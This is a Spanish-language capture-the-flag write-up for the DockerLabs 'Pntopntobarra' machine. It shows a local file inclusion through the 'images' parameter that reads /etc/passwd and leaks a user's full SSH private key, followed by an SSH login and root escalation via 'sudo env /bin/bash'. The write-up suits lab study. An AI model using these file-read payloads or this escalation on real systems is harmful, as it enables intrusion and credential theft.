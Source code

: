 # Pntopntobarra DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip pntopntobarra.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh pntopntobarra.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 13:52 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2e:4a:72:a0:b2:40:3a:36:99:c9:2d:a7:62:61:16:e7 (ECDSA)
|_  256 7c:7d:78:7a:20:2b:d0:75:92:26:1b:41:3c:ca:79:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Advertencia: LeFvIrus
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Si entramos a la pagina, veremos una simulacion de una infeccion de un virus, pero si le damos al boton llamado `ejemplo de computadoras infectadas` podremos ver en la `URL` que es un archiv `.php` y que lleva un parametro llamado `images` sujeto a el, probaremos a ver si es vulnerable a la lectura de archivos del sistema.

```
URL = http://<IP>/ejemplos.php?images=./ejemplo1.png
```

Ahora probaremos a meter lo siguiente:

```
URL = http://<IP>/ejemplos.php?images=/etc/passwd
```

Y veremos lo siguiente:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
nico:x:1000:1000:,,,:/home/nico:/bin/bash
```

Vemos que funciona, tambien podremos ver que hay un usuario llamado `nico`, si probamos a tirarle un ataque de fuerza bruta veremos que no funciona, por lo que vamos a ver si con dicha vulnerabilidad le sacamos alguna clave privada como por ejemplo el `id_rsa`.

## Escalate user nico

```
URL = view-source:http://<IP>/ejemplos.php?images=/home/nico/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Y vemos que funciona correctamente, por lo que nos metemos mediante la `clave privada` del usuario `nico`.

## SSH

```shell
nano id_rsa

#Dentro del nano
<CONTENT_ID_RSA>
```

Lo guardamos y el ponemos los permisos adecuados.

```shell
chmod 600 id_rsa
```

Y ahora nos conectamos con dicha clave:

```shell
ssh -i id_rsa nico@<IP>
```

Y con esto ya estaremos dentro con dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for nico on 0806c600fecc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nico may run the following commands on 0806c600fecc:
    (ALL) NOPASSWD: /bin/env
```

Veremos que podemos ejecutar el binario `env` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo env /bin/bash
```

Con esto veremos que somos `root`, por lo que habremos terminado la maquina.
